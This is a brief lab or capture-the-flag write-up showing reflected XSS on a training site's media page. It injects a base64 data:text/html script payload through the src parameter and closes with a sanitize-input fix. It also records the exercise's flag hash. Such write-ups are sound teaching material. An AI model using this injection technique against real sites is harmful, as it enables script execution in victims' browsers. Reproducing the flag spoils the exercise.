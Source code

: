Unsecure image
928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9

How to find exploit:
From the home page, click the nsa image (3rd image), when we look at the address bar, we notice there is a get request for the image.

How to exploit it:
Encode this script(cript>alert('this works')</script) in base 64:
you get :data:text/html;base64,PHNjcmlwdD5hbGVydCgnVGhpcyB3b3JrcycpPC9zY3JpcHQ+. add this in place of the 'nsa' in the address bar.
http://192.168.99.102/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnVGhpcyB3b3JrcycpPC9zY3JpcHQ+

how to fix exploit:
Validate and sanitize user input